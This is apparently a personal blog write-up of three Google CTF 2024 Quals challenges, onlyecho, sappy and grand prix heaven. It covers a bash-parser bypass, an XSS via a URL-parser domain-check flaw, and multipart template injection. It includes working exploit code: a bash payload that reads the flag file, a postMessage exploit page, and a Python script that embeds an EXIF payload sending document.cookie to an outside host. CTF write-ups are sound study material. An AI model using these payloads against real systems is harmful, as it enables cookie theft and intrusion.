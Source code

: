 +++ 
draft = false
date = 2024-06-24T22:58:45+09:00
title = "Google CTF 2024 Quals Writeup"
description = ""
slug = "google-ctf-2024-quals-writeup"
authors = []
tags = ["CTF", "web", "misc", "English"]
categories = []
externalLink = ""
series = []
+++

## Intro

I played Google CTF 2024 Quals with Cold Fusion members. Here's the writeup for [onlyecho]({{< ref "#onlyecho-misc" >}}), [sappy]({{< ref "#sappy-web" >}}) and [grand prix heaven]({{< ref "#grand-prix-heaven-web" >}}).

## onlyecho (misc)

`onlyecho` challenge accepts shell script from user and tries to parse them with [bash-parser](https://github.com/vorpaljs/bash-parser). If there's any Redirect or Command ast node except `echo`, the challenge will refuse to execute the script. We need to find a way to bypass this restriction and execute arbitrary command.

As the bash-parser module is pretty old (last released Jun 2017), I thought there might be some inconsistency between actual bash syntax and the bash-parser syntax. After few hours of trying and digging [man bash](https://linux.die.net/man/1/bash), I found that {{< h bash >}}echo  ${a[$(ls>2)]}{{< /h >}} array parameter expansion is not handled correctly, resulting in execution of {{< h bash >}}ls>2{{< /h >}} and output to stderr. However, we could not get the error string directly, and reverse shell did not work. To address this limitation, I used {{< h bash >}}echo ${a[0]-`cat /flag`}{{< /h >}} to directly cat flag to stdout.

{{< details "AST of solve script" >}}
```json
{
  "type": "Script",
  "commands": [
    {
      "type": "Command",
      "name": {
        "text": "echo",
        "type": "Word"
      },
      "suffix": [
        {
          "text": "${a[0]-`cat /flag`}",
          "expansion": [
            {
              "loc": {
                "start": 0,
                "end": 18
              },
              "parameter": "a[0]-`cat /flag`",
              "type": "ParameterExpansion"
            }
          ],
          "type": "Word"
        }
      ]
    }
  ]
}
```
{{< /details >}}

## sappy (web)

`sappy` was a simple XSS challenge and all we need was to load arbitrary html by using `render` message handler. `initialize` message handler provided way to change host of API, but it was restricted with domain filter based on googl.Uri.parse function of Google Closure Library. 

```js
function getHost(options) {
  if (!options.host) {
    const u = Uri.parse(document.location);

    return u.scheme + "://sappy-web.2024.ctfcompetition.com";
  }
  return validate(options.host);
}

function validate(host) {
  const h = Uri.parse(host);
  if (h.hasQuery()) {
    throw "invalid host";
  }
  if (h.getDomain() !== "sappy-web.2024.ctfcompetition.com") {
    throw "invalid host";
  }
  return host;
}

function buildUrl(options) {
  return getHost(options) + "/sap/" + options.page;
}
```

To bypass the domain restriction, I digged into the source code of goog.Uri.parse function, and it turns out the function was parsing url with single regex.

```re
/^(?:([^:/?#.]+):)?(?:\/\/(?:([^\\/?#]*)@)?([^\\/?#]*?)(?::([0-9]+))?(?=[\\/?#]|$))?([^?#]+)?(?:\?([^#]*))?(?:#([\s\S]*))?$/
```

The first capture group was scheme, and it allowed all characters except `:/?#.`, which means backslash(`\`) is allowed! We can bypass the domain restriction with following host, getting html content from our server.

`\\[HOST]://sappy-web.2024.ctfcompetition.com`

As the host should not contain dot, we initially used IP decimal convention to represent our server address. But we got no flag from the server. We assumed the problem was that the bot only sets cookie to https origin (somehow by setting Secure flag, idk). To bypass dot restriction, I used `%E3%80%82` (。: IDEOGRAPHIC FULL STOP) instead of dot, and sent request to https server. But there was no flag again. 

It turns out I used iframe to generate window object and pass message to sap frame, but iframe drops cookie if the parent and child's origin is different[^1]. I used `window.open` instead of iframe to bypass this.

```html
<html>
    <body>
        <script>
            const w = window.open('https://sappy-web.2024.ctfcompetition.com/');
            setTimeout(() => {
                w.frames[0].postMessage(`
                {
                    "method": "initialize", 
                    "host": "\\\\\\\\[REDACTED]%E3%80%82hokyun%E3%80%82dev://sappy-web.2024.ctfcompetition.com"
                }`, 'https://sappy-web.2024.ctfcompetition.com/sap.html');

                w.frames[0].postMessage(`
                {
                    "method": "render", 
                    "page": "test"
                }`, 'https://sappy-web.2024.ctfcompetition.com/sap.html');

            }, 2000);
        </script>
    </body>
</html>
```

## grand prix heaven (web)

grand prix heaven contained two server, the first one for handling APIs and second one for just template rendering. As the template engine is separated from webapp, I thought there might be some bug handling template rendering request. Webapp uses `needle` module to send multipart template request to server, and needle incorrectly handled special characters in keys and just pass the string directly. Template engine just splits the body using `\r\n\r\n` and gets template code from each line, so malformed multipart request was fine. We could inject arbitrary template code, including the restricted template `mediaparser`

`mediaparser` template had HTML injection vulnerability by using exif information of image we uploaded, so we crafted special jpeg image with script in it. 

```python
import requests
import json
from PIL import Image
import piexif

# URL = 'http://localhost:1337'
URL = 'https://grandprixheaven-web.2024.ctfcompetition.com'


img = Image.new('RGB', (100, 100), 'red')

exif_ifd = {
    piexif.ExifIFD.UserComment: b'test',
    piexif.ExifIFD.DateTimeOriginal: '2024:01:01 00:00:00',
}

image_ifd = {
    piexif.ImageIFD.ImageDescription: '<img src=x onerror="location.href=\'https://[REDACTED]/\'+btoa(document.cookie)">',
}

exif_bytes = piexif.dump({"0th": image_ifd, "Exif": exif_ifd})
img.save('image.jpg', exif=exif_bytes)

template = {
    '0"\r\n\r\nretrieve\r\n\r\nmediaparser\r\n\r\nhead_end\r\n\r\nfaves\r\n\r\nfooter\r\n\r\n--GP_HEAVEN--GP_HEAVEN--GP_HEAVEN--GP_HEAVEN--GP_HEAVEN--GP_HEAVEN--GP_HEAVEN--GP_HEAVEN\r\n': 'csp'
}

r = requests.post(URL + '/api/new-car', data={
    'year': '2024',
    'make': 'ohk990102',
    'model': 'ohk990102',
    'custom': json.dumps(template)
}, files={
    'image': ('image', open('image.jpg', 'rb'), 'image/jpeg')
}, allow_redirects=False)

config_id = r.headers['Location'].split('F1=')[1]

print(f'{config_id = }')

r = requests.get(URL + '/api/get-car/' + config_id)

img_id = r.json()['img_id']

report_url = URL + '/fave/' + config_id + '?F1=' + "%5Cmedia%5C" + img_id

r = requests.post(URL + '/report', data={
    'url': report_url
})

print(r.text)
```


[^1]: To be more specific, Lax cookies are sent with cross-site requests only if they are top-level requests AND have a safe method. [IETF Spec](https://datatracker.ietf.org/doc/html/draft-ietf-httpbis-rfc6265bis-07#section-5.5). Lax became default in Chrome on Jul 2020. [Chrome Status](https://chromestatus.com/feature/5088147346030592)

